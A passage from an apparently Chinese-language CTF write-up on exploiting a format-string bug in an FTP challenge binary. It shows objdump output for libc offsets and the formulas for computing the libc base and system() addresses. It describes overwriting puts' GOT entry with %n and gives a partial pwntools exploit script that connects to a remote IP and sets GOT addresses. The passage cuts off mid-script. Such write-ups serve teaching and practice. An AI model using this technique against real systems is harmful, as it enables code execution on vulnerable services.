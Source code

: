 接着需要获取puts在libc中的偏移：
``` bash
[root@bogon printf]# objdump -T libc-2.23.so | grep puts
0005fca0 g    DF .text  000001d0  GLIBC_2.0   _IO_puts
0005fca0  w   DF .text  000001d0  GLIBC_2.0   puts
000ebb20 g    DF .text  00000491  GLIBC_2.0   putspent
000ed1d0 g    DF .text  00000291  GLIBC_2.10  putsgent
0005e720  w   DF .text  0000015d  GLIBC_2.0   fputs
0005e720 g    DF .text  0000015d  GLIBC_2.0   _IO_fputs
000680e0  w   DF .text  00000092  GLIBC_2.1   fputs_unlocked
[root@bogon printf]#

```
偏移为`0x5fca0`

然后可通过打印出got表中的地址，获取puts函数别的实际地址，最后计算出libc的地址

> addr_libc = addr_puts - offset_puts

紧接着计算出system地址

> addr_system = addr_libc + offset_system

然后通用`%n`进行任意地址写，将puts的got表覆盖为system的地址

最后构造的exploit如下：
``` python
#!/usr/bin/python
# @auther baseline
# github : https://github.com/windyware


from pwn import *

io = remote("121.194.2.42", 8001)

def put_file(io, name, content):
        io.recvuntil("ftp>")
        io.writeline("put")
        io.recvuntil(":")
        io.writeline(name)
        io.recvuntil(":")
        io.writeline(content)

def dir_file(io):
        io.recvuntil("ftp>")
        io.writeline("dir")

def get_file(io, name):
        io.recvuntil("ftp>")
        io.writeline("get")
        io.recvuntil(":")
        io.writeline(name)

def pwn(io):
        print 'exploit begin'
        username = ''.join([chr(ord(c)-1) for c in 'sysbdmin'])

        io.recvuntil('Name (ftp.hacker.server:Rainism):');
        io.writeline(username)

        got_malloc = 0x0804a024
        got_puts = 0x0804a028

        name = 'aaaa'
        #content =  p32(malloc_got)+'%6$s.'
        #content =  'A'*4+'B'*4+'C'*4+'%08x,%08x,%08x,%08x,%08x,%08x,%08x,%08x,%08x,%08x,%08x...'
```
